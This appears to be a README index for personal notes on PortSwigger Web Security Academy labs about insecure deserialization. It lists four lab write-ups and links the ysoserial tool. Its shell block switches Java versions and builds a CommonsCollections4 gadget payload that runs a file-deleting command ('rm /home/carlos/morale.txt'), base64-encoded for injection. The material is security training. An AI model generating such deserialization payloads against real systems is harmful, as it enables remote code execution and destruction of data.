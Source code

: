 # [Insecure deserialization](https://portswigger.net/web-security/deserialization)

## Lab

- apprentice:
  - [1. Modifying serialized objects[](./lab/1.%20Modifying%20serialized%20objects.md)
- practitioner:
  - [2. Modifying serialized data types](./lab/2.%20Modifying%20serialized%20data%20types.md)
  - [3. Using application functionality to exploit insecure deserialization](./lab/3.%20Using%20application%20functionality%20to%20exploit%20insecure%20deserialization.md)
  - [4. Arbitrary object injection in PHP](./lab/4.%20Arbitrary%20object%20injection%20in%20PHP.md)

## Tools

- [ysoserial-all.jar](https://github.com/frohoff/ysoserial)

```shell
$ sudo apt install openjdk-11-jre-headless
$ sudo update-alternatives --config java
There are 2 choices for the alternative java (providing /usr/bin/java).

  Selection    Path                                         Priority   Status
------------------------------------------------------------
* 0            /usr/lib/jvm/java-17-openjdk-amd64/bin/java   1711      auto mode
  1            /usr/lib/jvm/java-11-openjdk-amd64/bin/java   1111      manual mode
  2            /usr/lib/jvm/java-17-openjdk-amd64/bin/java   1711      manual mode

Press <enter> to keep the current choice[*], or type selection number: 1
$ java -jar /mnt/d/Downloads/ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64 -w 0
```

## Summary
